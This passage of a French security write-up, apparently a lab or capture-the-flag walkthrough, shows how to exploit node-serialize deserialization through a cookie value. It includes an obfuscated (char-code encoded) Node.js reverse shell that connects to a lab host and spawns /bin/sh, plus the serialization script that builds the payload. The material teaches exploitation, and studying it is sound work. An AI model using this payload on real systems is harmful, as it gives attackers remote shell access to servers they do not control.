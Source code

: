 Mais il ne suffit pas de passer ce code comme valeur pour la clé `username` du cookie. Il faut à la place que cette valeur correspond à une fonction sérialisée qui appelera notre code.

Pour cela je dois écrire le script suivant qui affichera le code sous forme sérialisée :

```js
var y = {                                                                                                              
username : function() { return eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,53,54,46,49,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10));}
}                                                                                                                      
var serialize = require('node-serialize');                                                                             
console.log("Serialized: \n" + serialize.serialize(y))
```

Il faut installer `node-serialize` via npm pour que le script fontionne normalement. Attention à mettre le code sur une seule ligne sinon des `\n` se retrouvent dans l'output et posent problème.

L'output généré ressemble à ceci :

```json
{"username":"_$$ND_FUNC$$_function() { return eval(...);}"}
```

C'est bien, mais on voit qu'il n'y a que la déclaration de fonction. La fonction n'est pas appelée dans le code.

C'est normal car si on l'appelle dans notre code JS çi dessus on sérialisera la valeur de retour de la fonction au lieu de la fonction elle-même !

